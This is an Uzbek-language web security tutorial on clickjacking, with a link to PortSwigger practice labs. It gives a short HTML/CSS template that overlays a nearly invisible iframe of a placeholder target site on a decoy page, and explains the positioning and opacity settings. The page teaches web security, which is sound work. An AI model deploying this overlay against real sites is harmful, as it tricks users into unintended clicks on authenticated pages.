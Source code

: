 {% hint style="warning" %}
<mark style="color:yellow;">**Labaratoriyalar:**</mark>&#x20;

Agar Clickjacking zaifliklar**i** haqida bilsangiz pastdagi link orqali, haqiqiy web saytdek tuzilgan laboratoriyalarni yechishingiz mumkin.&#x20;

[<mark style="color:yellow;">Clickjacking labaratoriyalarini ko'rish≫</mark>](https://portswigger.net/web-security/all-labs#clickjacking)<mark style="color:yellow;"></mark>
{% endhint %}

## <mark style="color:yellow;">Qanday qilib sodda Clickjacking xujumini amalga oshirish mumkin ?</mark> <a href="#qanday-qilib-sodda-clickjacking-xujumini-amalga-oshirish-mumkin" id="qanday-qilib-sodda-clickjacking-xujumini-amalga-oshirish-mumkin"></a>

Clickjacking xujumi ko'pincha CSS orqali tuzilgan web sahifalar hisoblanadi. Haker haqiqiy saytni sohta sayt tagiga joylashtiradi va sohta sayt orqali o'z xujumini amalga oshiradi. Teglarni va parametrlarni qanday to'g'ri ishlatishni quyida keltiramiz:

```html
<head>
    <style>
        #target_website {
            position:relative;
            width:128px;
            height:128px;
            opacity:0.00001;
            z-index:2;
            }
        #decoy_website {
            position:absolute;
            width:300px;
            height:400px;
            z-index:1;
            }
    </style>
</head>
...
<body>
    <div id="decoy_website">
    ...sohta web sayt kontenti...
    </div>
    <iframe id="target_website" src="https://vulnerable-website.com">
    </iframe>
</body>
```

Bu yerda aldoqchi web sayt bilan haqiqiy web saytning iframe lari shunday joylashtirilganki, balandlik, uzunlik qismlari orqali foydalanuvchini bemalol aldash mumkin. Bu yerda berilgan qiymatlar ko'pincha ekran uzunligi, balandliklariga ko'ra o'zgarishi mumkin. z-index esa elementning nimaning ustida turishini qiymatini beradi (odatda z-index 0.0 holatida bo'ladi). Iframe ni shaffof holatda aniqlash amalga oshishi mumkin (misol uchun Chrome 76 da ushbu imkoniyat mavjud, Firefox da esa yo'q).
